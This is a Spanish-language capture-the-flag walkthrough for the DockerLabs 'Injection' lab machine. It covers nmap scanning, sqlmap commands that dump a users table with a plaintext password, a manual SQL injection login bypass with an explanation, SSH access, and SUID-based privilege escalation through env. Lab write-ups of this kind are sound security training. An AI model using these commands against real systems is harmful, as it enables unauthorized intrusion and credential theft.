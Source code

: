 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
Nombre: Injection
Dificultad: muy fácil
Herramientas:
[[Ping]]
[[NMAP]]
[[WhatWeb]]
[[SQLMAP]]
[[Puerto 22 SSH - SFTP]]



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```

![[DockerLabs - Injection - Deploy.png]]

Ping para comprobar conectividad y ver el ttl: 64
![[DockerLabs - Injection - Ping.png]]

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![[DockerLabs - Injection - Nmap.png]]

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![[DockerLabs - Injection - Web.png]]

WhatWeb no nos da mucha información

![[DockerLabs - Injection - Whatweb.png]]

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![[DockerLabs - Injection - SQL Injection manual.png]]

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![[DockerLabs - Injection - Codigo consulta sin validar.png]]


Acceso con usuario dylan:
![[DockerLabs - Injection - User access.png]]

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:
![[DockerLabs - Injection - SSH dylan user.png]]


## Escalada de privilegios
sudo -l
![[DockerLabs - Injection - sudo-l.png]]

find / -perm -4000 2>/dev/null

![[DockerLabs - Injection - Suid.png]]

Buscamos en Gtfobins algunos de estos suid
![[DockerLabs - Injection - gtfobbins env.png]]
Encuentro env:
lo ejecutamos con las rutas absolutas


![[DockerLabs - Injection - Escalada de privilegiso.png]]

DockerLabs - Injection -